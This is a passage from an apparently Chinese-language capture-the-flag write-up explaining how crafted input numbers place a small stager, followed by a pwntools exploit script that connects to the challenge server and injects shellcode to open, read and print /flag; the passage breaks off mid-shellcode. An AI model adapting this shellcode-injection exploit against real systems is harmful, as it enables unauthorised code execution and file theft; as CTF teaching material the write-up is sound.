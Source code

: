 
这样一来，当输入数字为`idx`时，通过访问文件中的`idx * 4:idx * 4 + 4`可以获知最后放入
shellcode 区的真正数字。然后再准备shellcode，转换为16进制后放到imhex里面爆搜，
就可以根据地址反推输入的数字

![brute force](/assets/shanghai2024/table.png)

书签上对应的指令与以下脚本中的地址一一对应

图中指令：使rdx变为0x600000，然后跳转过去，再执行一次read，读入任意shellcode

## EXPLOIT

```python
from pwn import *
from rich.progress import track
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './main'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('222.67.132.186', 24026)

    sh.sendlineafter(b'input', b'1')
    sh.recvuntil(b'number') # get into code_input

    table = {0xffe: 0xcfbad200 // 4, 0xfff: 0x381598 // 4,
            0: 0x6ddbcc00 // 4, 1: 0x1070044 // 4}
    for i in track(range(0x1000), 'sending ints'):
        sh.sendline(str(table.get(i, 0)).encode())

    sh.sendlineafter(b'input', b'2')
    sleep(0.5)
    code = '''
    /* openat(0, "/flag", 0, 0) */
    mov rbx, 0x67616c662f
    push rbx
    push rsp
    pop rsi
    xor edi, edi
    xor r10, r10
    xor edx, edx
    push 0x101
    pop rax
    syscall

    /* read(rax, 0x601000, 0x50) */
    push rax
    pop rdi
    xor eax, eax
    mov rsi, 0x601000
    mov rdx, 0x50
    syscall

    /* writev(1, &[0x601000, rax], 1) */
    push 1
    pop rdi
    push 0x1    /* iov size */
```